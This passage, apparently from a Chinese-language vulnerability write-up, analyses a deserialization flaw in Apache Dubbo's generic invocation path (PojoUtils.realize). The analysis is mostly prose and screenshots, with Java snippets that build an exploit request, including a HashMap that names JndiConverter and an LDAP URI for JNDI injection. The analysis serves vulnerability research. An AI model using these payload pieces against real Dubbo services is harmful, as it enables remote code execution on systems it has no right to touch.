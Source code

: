 会调用PojoUtils.realize

![image-20250212215854573](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typoraimage-20250212215854573.png)

下面是静态分析

一直跟进到realize0，如果pojo为Map子类这个if里面，获取了class的值，并反射获取

![image-20250212220607912](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typoraimage-20250212220607912.png)

如果type不是Map或者Object，则实例化type，并反射调用其setter

![image-20250212220936343](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typoraimage-20250212220936343.png)

向上追溯这几个参数怎么传进去的，name是方法名sayHello，types是sayHello的参数，需要为`new String[] {"java.lang.String"}`，又要满足能通过`$invoke`验证，所以如下：

```java
		out.writeUTF("org.apache.dubbo.spring.boot.demo.consumer.DemoService");
        out.writeUTF("");
        out.writeUTF("$invoke");
        out.writeUTF("Ljava/lang/String;[Ljava/lang/String;[Ljava/lang/Object;");
        // todo 此处填写Dubbo提供的服务的方法
        out.writeUTF("sayHello");
        out.writeObject(new String[] {"java.lang.String"});
```

![image-20250212221406661](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typoraimage-20250212221406661.png)

第三个参数为args，也就是就是我们传的Object[]

![image-20250214161301066](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typoraimage-20250214161301066.png)

pojo就来自args，所以args Object[]存hashMap，取class键值和利用就OK了

![image-20250214162645557](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typoraimage-20250214162645557.png)

class装能用setter的对象，这里搞的org.apache.xbean.propertyeditor.JndiConverter（或者JdbcRowSetImpl都可以），args装方法名asText和参数jndi地址

```java
		HashMap jndi = new HashMap();
        jndi.put("class", "org.apache.xbean.propertyeditor.JndiConverter");
        jndi.put("asText", ldapUri);
        out.writeObject(new Object[]{jndi});
```

那generic呢？来自Attachment参数

![image-20250214163143756](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typoraimage-20250214163143756.png)

正常来说Attachment如下：

![image-20250214163212300](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typoraimage-20250214163212300.png)

java代码里在Dubbo协议尾部加个hashMap，自己会识别
